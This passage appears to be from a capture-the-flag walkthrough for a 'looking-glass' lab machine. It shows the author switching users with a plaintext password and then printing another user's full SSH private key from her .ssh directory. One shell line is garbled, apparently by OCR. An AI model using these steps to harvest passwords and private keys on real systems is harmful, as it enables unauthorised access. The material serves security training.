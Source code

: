We got `humptydumpty` password, let's switch to him / her.

```bash
tweedledum@looking-glass:/home$ su humptydumpty
su humptydumpty
Password: zyxwvutsrqponmlk

humptydumpty@looking-glass:/home$
```

I tried basic enumeration to find something to escalate our priv. and found nothing. I found that we can execute inside `/home/alice` directory. Let's enumerate through the directory.

```bash
humptydumpty@looking-glass:/hocd alicel 
cd alice
humptydumpty@looking-glass:/home/alice$ ls
ls
ls: cannot open directory '.': Permission denied
humptydumpty@looking-glass:/home/alice$ cd .ssh
cd .ssh
humptydumpty@looking-glass:/home/alice/.ssh$ ls
ls
ls: cannot open directory '.': Permission denied
humptydumpty@looking-glass:/home/alice/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAxmPncAXisNjbU2xizft4aYPqmfXm1735FPlGf4j9ExZhlmmD
NIRchPaFUqJXQZi5ryQH6YxZP5IIJXENK+a4WoRDyPoyGK/63rXTn/IWWKQka9tQ
2xrdnyxdwbtiKP1L4bq/4vU3OUcA+aYHxqhyq39arpeceHVit+jVPriHiCA73k7g
HCgpkwWczNa5MMGo+1Cg4ifzffv4uhPkxBLLl3f4rBf84RmuKEEy6bYZ+/WOEgHl
fks5ngFniW7x2R3vyq7xyDrwiXEjfW4yYe+kLiGZyyk1ia7HGhNKpIRufPdJdT+r
NGrjYFLjhzeWYBmHx7JkhkEUFIVx6ZV1y+gihQIDAQABAoIBAQDAhIA5kCyMqtQj
X2F+O9J8qjvFzf+GSl7lAIVuC5Ryqlxm5tsg4nUZvlRgfRMpn7hJAjD/bWfKLb7j
/pHmkU1C4WkaJdjpZhSPfGjxpK4UtKx3Uetjw+1eomIVNu6pkivJ0DyXVJiTZ5jF
ql2PZTVpwPtRw+RebKMwjqwo4k77Q30r8Kxr4UfX2hLHtHT8tsjqBUWrb/jlMHQO
zmU73tuPVQSESgeUP2jOlv7q5toEYieoA+7ULpGDwDn8PxQjCF/2QUa2jFalixsK
WfEcmTnIQDyOFWCbmgOvik4Lzk/rDGn9VjcYFxOpuj3XH2l8QDQ+GO+5BBg38+aJ
cUINwh4BAoGBAPdctuVRoAkFpyEofZxQFqPqw3LZyviKena/HyWLxXWHxG6ji7aW
DmtVXjjQOwcjOLuDkT4QQvCJVrGbdBVGOFLoWZzLpYGJchxmlR+RHCb40pZjBgr5
8bjJlQcp6pplBRCF/OsG5ugpCiJsS6uA6CWWXe6WC7r7V94r5wzzJpWBAoGBAM1R
aCg1/2UxIOqxtAfQ+WDxqQQuq3szvrhep22McIUe83dh+hUibaPqR1nYy1sAAhgy
wJohLchlq4E1LhUmTZZquBwviU73fNRbID5pfn4LKL6/yiF/GWd+Zv+t9n9DDWKi
WgT9aG7N+TP/yimYniR2ePu/xKIjWX/uSs3rSLcFAoGBAOxvcFpM5Pz6rD8jZrzs
SFexY9P5nOpn4ppyICFRMhIfDYD7TeXeFDY/yOnhDyrJXcbOARwjivhDLdxhzFkx
X1DPyif292GTsMC4xL0BhLkziIY6bGI9efC4rXvFcvrUqDyc9ZzoYflykL9KaCGr
+zlCOtJ8FQZKjDhOGnDkUPMBAoGBAMrVaXiQH8bwSfyRobE3GaZUFw0yreYAsKGj
oPPwkhhxA0UlXdITOQ1+HQ79xagY0fjl6rBZpska59u1ldj/BhdbRpdRvuxsQr3n
aGs//N64V4BaKG3/CjHcBhUA30vKCicvDI9xaQJOKardP/Ln+xM6lzrdsHwdQAXK
e8wCbMuhAoGBAOKy5OnaHwB8PcFcX68srFLX4W20NN6cFp12cU2QJy2MLGoFYBpa
dLnK/rW4O0JxgqIV69MjDsfRn1gZNhTTAyNnRMH1U7kUfPUB2ZXCmnCGLhAGEbY9
k6ywCnCtTz2/sNEgNcx9/iZW+yVEm/4s9eonVimF+u19HJFOPJsAYxx0
-----END RSA PRIVATE KEY-----
```
